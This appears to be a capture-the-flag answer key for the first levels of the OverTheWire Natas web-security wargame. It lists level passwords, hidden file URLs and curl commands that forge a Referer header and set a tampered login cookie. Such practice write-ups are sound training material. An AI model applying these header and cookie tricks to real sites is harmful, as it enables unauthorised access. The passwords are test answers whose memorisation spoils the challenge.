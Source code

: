 ### Solutions


natas1 : gtVrDuiDfck831PqWsLEZy5gyDz1clto - Commentaire

natas2 : ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi - Commentaire

natas3 : sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 - http://natas2.natas.labs.overthewire.org/files/users.txt

natas4 : Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ - http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

natas5 : iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq - curl --referer http://natas5.natas.labs.overthewire.org/ --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/index.php

natas6 : aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 - curl --cookie loggedin=1 --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org